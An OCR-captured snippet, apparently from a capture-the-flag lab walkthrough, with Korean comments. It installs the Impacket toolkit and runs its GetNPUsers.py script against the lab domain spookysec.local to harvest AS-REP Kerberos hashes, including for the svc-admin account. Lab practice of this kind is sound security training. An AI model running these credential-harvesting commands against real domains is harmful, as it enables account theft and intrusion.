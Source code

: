 sudo apt update
sudo apt install python3-pip python3-venv -y

# 1. 가상환경 생성

python3 -m venv impacket-env
source impacket-env/bin/activate

# 2. Git 클론

git clone https://github.com/fortra/impacket.git
cd impacket

# 3. 설치

pip install -r requirements.txt
python3 setup.py install

cd impacket/examples
python3 GetNPUsers.py spookysec.local/USERNAME -no-pass -dc-ip 10.10.206.91

python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.206.91

